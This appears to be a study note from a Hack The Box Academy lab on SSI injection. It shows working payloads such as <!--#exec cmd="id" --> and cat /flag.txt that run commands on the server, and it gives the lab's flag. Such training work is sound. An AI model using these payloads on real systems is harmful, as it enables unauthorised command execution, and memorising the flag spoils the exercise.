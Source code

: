﻿---
sticker: lucide//server-off
---
Now that we have discussed how SSI works in the previous section, let us discuss how to exploit SSI injection.

---

## Exploitation

Let us take a look at our sample web application. We are greeted by a simple form asking for our name:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_1.png)

If we enter our name, we are redirected toÂ `/page.shtml`, which displays some general information:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_2.png)

We can guess that theÂ page supports SSI based on the file extension.Â If our username is inserted into the page without prior sanitization, it might be vulnerable to SSI injection. Let us confirm this by providing a username ofÂ `<!--#printenv -->`. This results in the following page:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_3.png)

As we can see, the directive is executed, and the environment variables are printed. Thus, we have successfully confirmed an SSI injection vulnerability. Let us confirm that we can execute arbitrary commands using theÂ `exec`Â directive by providing the following username:Â `<!--#exec cmd="id" -->`



Â Â Â 

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_4.png)

The server successfully executed our injected command.Â ThisÂ enables us to take over the web server fully.

# Question

![Pasted image 20250212142109.png](../../../../IMAGES/Pasted%20image%2020250212142109.png)

We can use the following payload to achieve RCE:

```
<!--#exec cmd="id" -->
```

![Pasted image 20250212142217.png](../../../../IMAGES/Pasted%20image%2020250212142217.png)

Nice, let's read `/` directory:

```
<!--#exec cmd="ls /" -->
```

![Pasted image 20250212142245.png](../../../../IMAGES/Pasted%20image%2020250212142245.png)

Found our flag, let's read it:

```
<!--#exec cmd="cat /flag.txt" -->
```

![Pasted image 20250212142315.png](../../../../IMAGES/Pasted%20image%2020250212142315.png)

Flag is:

```
HTB{81e5d8e80eec8e961a31229e4a5e737e}
```
